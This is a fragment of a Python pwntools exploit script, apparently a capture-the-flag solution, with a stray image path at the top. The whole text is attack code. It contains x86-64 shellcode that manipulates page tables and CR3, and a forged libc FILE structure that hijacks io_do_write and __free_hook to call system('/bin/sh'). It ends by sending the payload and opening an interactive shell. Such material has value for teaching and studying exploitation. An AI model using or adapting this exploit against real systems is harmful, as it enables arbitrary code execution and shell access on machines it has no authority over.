 ```py=

hlt'''

shellcode = '''
mov qword ptr [0x1000], 0x2003
mov qword ptr [0x2000], 0x3003
mov qword ptr [0x3000], 0x4003
mov qword ptr [0x4000], 0x0003
mov qword ptr [0x4008], 0x16003

mov rax, 0x1000
mov cr3, rax
mov rax, 0
mov qword ptr [0x1008], 0xdead
mov qword ptr [0x1010], 0xdead
mov qword ptr [0x1000], 0xdead
mov rax, 0x100000000110
mov qword ptr [0x1010], 0xdead
mov qword ptr [0x1018], 0xdead

hlt'''
TARGET = libc.address + 0x3c3750 
overwrite = TARGET - 0x78 # change io_do_write
BUF = 0x3c4120 + libc.address
file = p64(0xfbad0000 | 0x800 | 0x2000 | 0x1000 | 0x8000) + p64(0)*3 + p64(libc.symbols['__free_hook']) + p64(libc.symbols['__free_hook'] + 8) + p64(libc.symbols['environ'] + 8)
file += p64(next(libc.search(b'/bin/sh\x00'))) + p64(0)*6 + p64(0) + p64(0)*2 + p64(BUF) + p64(0xffffffffffffffff) + p64(0)*5 + p64(0x0) + p64(0)*2 + p64(overwrite)
payload = bytes(asm(shellcode))
payload = payload.ljust(0x1000, b'\x90')
payload += b'A'*0x20 + p64(0) + p64(0x231) + file
sla(b'Length', str(len(payload)).encode())
sa(b'Comrade', payload)

p.wait(0.5)
s(p64(libc.symbols['system']))
p.interactive()
```
